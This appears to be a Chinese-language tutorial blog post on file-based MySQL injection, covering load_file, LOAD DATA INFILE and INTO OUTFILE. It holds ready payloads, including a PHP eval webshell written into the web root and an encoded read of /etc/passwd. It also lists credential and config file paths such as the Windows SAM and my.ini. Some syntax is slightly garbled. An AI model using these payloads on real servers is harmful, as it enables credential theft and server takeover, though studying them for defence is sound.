 # 文件型注入


&gt;本文参考博客：https://blog.csdn.net/Kevinhanser/article/details/81592478?ops_request_misc=&amp;request_id=&amp;biz_id=102&amp;utm_term=%E5%AF%BC%E5%85%A5%E6%96%87%E4%BB%B6%E5%9E%8B%E6%B3%A8%E5%85%A5&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-0-81592478.142^v88^koosearch_v1,239^v2^insert_chatgpt&amp;spm=1018.2226.3001.4187
## 一、基本思路
1.通过使用load_file导出访问dnslog平台；
2.通过hex()对查看的@@basedir mysql的安装目录进行16进制转换，避免url显示不出特殊符号；
【注：因为url长度有限使用substr()函数截取函数分段显示然后再拼接一起查看】
## 二、基础函数
1.**load_file(file_name)**:读取文件并返回该文件的内容作为一个字符串。【相当于导出文件】
使用条件：
（1）文件必须有读写的权限
```
and (select count() from mysql.user)&gt;0/ 如果结果返回正常,说明具有读写权限。
and (select count() from mysql.user)&gt;0/ 返回错误，应该是管理员给数据库帐户降权
```
（2）读取的文件在服务器上
（3）待读取文件大小要小于 max_allowed_packet

MySQL注入load_file常用路径
（1）Windows下
```
 c:/boot.ini 										//查看系统版本
 c:/windows/php.ini 									//php配置信息
 c:/windows/my.ini 									//MYSQL配置文件，记录管理员登陆过的MYSQL用户名和密码
 c:/winnt/php.ini
 c:/winnt/my.ini
 c:\mysql\data\mysql\user.MYD 						//存储了mysql.user表中的数据库连接密码
 c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini	//存储了虚拟主机网站路径和密码
 c:\Program Files\Serv-U\ServUDaemon.ini
 c:\windows\system32\inetsrv\MetaBase.xml			//查看IIS的虚拟主机配置
 c:\windows\repair\sam								//存储了WINDOWS系统初次安装的密码
 c:\Program Files\ Serv-U\ServUAdmin.exe				//6.0版本以前的serv-u管理员密码存储于此
 c:\Program Files\RhinoSoft.com\ServUDaemon.exe		
 C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\*.cif文件											//存储了pcAnywhere的登陆密码
 c:\Program Files\Apache Group\Apache\conf\httpd.conf 或C:\apache\conf\httpd.conf											//查看WINDOWS系统apache文件
 c:/Resin-3.0.14/conf/resin.conf						//查看jsp开发的网站 resin												//文件配置信息.
 c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf	//查看linux系统配置的JSP虚拟主机
 d:\APACHE\Apache2\conf\httpd.conf
 C:\Program Files\mysql\my.ini
 C:\mysql\data\mysql\user.MYD						//存在MYSQL系统中的用户密码
```
（2）Linux下
```
 /usr/local/app/apache2/conf/httpd.conf 				//apache2缺省配置文件
 /usr/local/apache2/conf/httpd.conf
 /usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
 /usr/local/app/php5/lib/php.ini 					//PHP相关设置
 /etc/sysconfig/iptables 							//从中得到防火墙规则策略
 /etc/httpd/conf/httpd.conf 							// apache配置文件
 /etc/rsyncd.conf 									//同步程序配置文件
 /etc/my.cnf 										//mysql的配置文件
 /etc/redhat-release									//系统版本
 /etc/issue
 /etc/issue.net
 /usr/local/app/php5/lib/php.ini 					//PHP相关设置
 /usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
 /etc/httpd/conf/httpd.conf或/usr/local/apche/conf/httpd.conf //查看linux APACHE虚拟主机配置文件
 /usr/local/resin-3.0.22/conf/resin.conf 				//针对3.0.22的RESIN配置文件查看
 /usr/local/resin-pro-3.0.22/conf/resin.conf 			//针对3.0.22的RESIN配置文件查看
 /usr/local/app/apache2/conf/extra/httpd-vhosts.conf 	//APASHE虚拟主机查看
 /etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf //查看linux APACHE虚拟主机配置文件
 /usr/local/resin-3.0.22/conf/resin.conf 				//针对3.0.22的RESIN配置文件查看
 /usr/local/resin-pro-3.0.22/conf/resin.conf 同上
 /usr/local/app/apache2/conf/extra/httpd-vhosts.conf	//APASHE虚拟主机查看
 /etc/sysconfig/iptables								//查看防火墙策略
 load_file(char(47))									//可以列出FreeBSD,Sunos系统根目录
 replace(load_file(0×2F6574632F706173737764),0×3c,0×20)
 replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))
```


2.**LOAD DATA INFILE** ：高速地从一个文本文件中读取行，并装入一个表中。文件名称必须为一个文字字符串。【相当于把文件导入数据库】
例：
```
load data infile ‘/tmp/t0.txt’ ignore into table t0 character set gbk fields terminated by &#39;\t’lines terminated by ‘\n’
```
将 /tmp/t0.txt 导入到 t0 表中，character set gbk 是字符集设置为 gbk，fields terminated by 是每一项数据之间的分隔符，lines terminated by 是行的结尾符。当错误代码是 2 的时候的时候，文件不存在，错误代码为 13 的时候是没有权限，可以考虑 /tmp 等文件夹。


3.**SELECT.....INTO OUTFILE &#39;file_name&#39;**：把被选择的行写入一个文件中【向文件中导入】
形式：
（1）直接将 select 内容导入到文件中
```
select version() into outfile &#34;c:\\phpnow\\htdocs\\test.php&#34;
```
或者换成一句话木马
```
select &lt;?php @eval($_post[&#34;mima&#34;])?&gt; into outfile &#34;c:\\phpnow\\htdocs\\test.php&#34;
```
（2）修改文件结尾
```
select version() Into outfile &#34;c:\\phpnow\\htdocs\\test.php&#34; LINES TERMINATED BY 0x16 进制文件
```
通常是用 ‘\r\n’ 结尾，此处我们修改为自己想要的任何文件。同时可以用FIELDSTERMINATED BY
其中，16 进制可以为一句话或者其他任何的代码，可自行构造

注：
根据环境，在文件路径当中要注意转义
当前台无法导出数据的时候，我们可以利用下面的语句
```
 select load_file(&#39;c:\\wamp\\bin\\mysql\\mysql5.6.17\\my.ini&#39;)into outfile &#39;c:\\wamp\\www\\test.php&#39;
```
利用该语句将服务器当中的内容导入到 web 服务器下的目录，这样就可以得到数据了。上述 my.ini 当中存在 password 项（不过默认被注释），当然会有很多的内容可以被导出来

4.**@@basedir**：显示mysql的安装目录
5.**@@datadir**：显示mysql的数据目录
6.**substr(字符串,字符串的起始值,截取的长度)**：截取字符串
7.**hex()**：16进制转换

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2023web-%E6%96%87%E4%BB%B6%E5%9E%8B%E6%B3%A8%E5%85%A5/  

